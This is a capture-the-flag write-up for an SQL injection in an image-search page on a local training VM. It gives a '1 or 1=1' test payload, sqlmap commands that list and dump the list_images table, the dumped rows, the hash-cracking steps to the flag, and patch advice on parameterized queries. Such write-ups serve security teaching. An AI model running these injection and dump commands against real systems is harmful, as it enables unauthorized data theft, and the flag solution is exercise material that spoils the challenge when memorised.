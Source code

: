 # 02_Unsercure_Search_Of_Image_SQLINJECTION

Unsecure sql request form in the page:
http://192.168.99.100/index.php?page=searchimg

## How to see it

Go on the page mentionned before.
Whenever you are looking for an SQL injection you want to check if the page is injectable. You can either check this with sqlmap
or you can try to type an SQL request responding true everytime such like this one:
```bash
1 or 1=1
```
Whenever we type this one we realise that this page can be injected. This is a major security problem.

## How to abuse of it

We are going to use a tool which will help us to inject this sql. It is Sqlmap.
So we can basically print the list of the database that we are intersted in with this command:
```bash
sqlmap -u "http://192.168.99.100/?page=searchimg&id=1&Submit=Submit#" --tables
```
Then we can make a dump of the database we are interested in, so the user one:
```bash
sqlmap -u "http://192.168.99.100/?page=searchimg&id=1&Submit=Submit#" --dump -T list_images
```
And here we are now we can decrypt the password with the asked in the command request:
```bash
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| id | url                              | title     | comment                                                                                                               |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| 1  | https://www.nsa.org/img.jpg      | Nsa       | An image about the NSA !                                                                                              |
| 2  | https://www.42.fr/42.png         | 42 !      | There is a number..                                                                                                   |
| 3  | https://www.google.fr/google.png | Google    | Google it !                                                                                                           |
| 4  | https://www.obama.org/obama.jpg  | Obama     | Yes we can !                                                                                                          |
| 5  | borntosec.ddns.net/images.png    | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |
| 6  | https://www.h4x0r3.0rg/tr0ll.png | tr00l     | Because why not ?                                                                                                     |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
```

```bash
1928e8083cf461a51303633093573c46 -> albatroz -> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## How to patch it

Don't use dynamic SQL – don't construct queries with user input: Even data sanitization routines can be flawed.
So use prepared statements, parameterized queries or stored procedures instead whenever possible. ORM IS GOOD USE IT
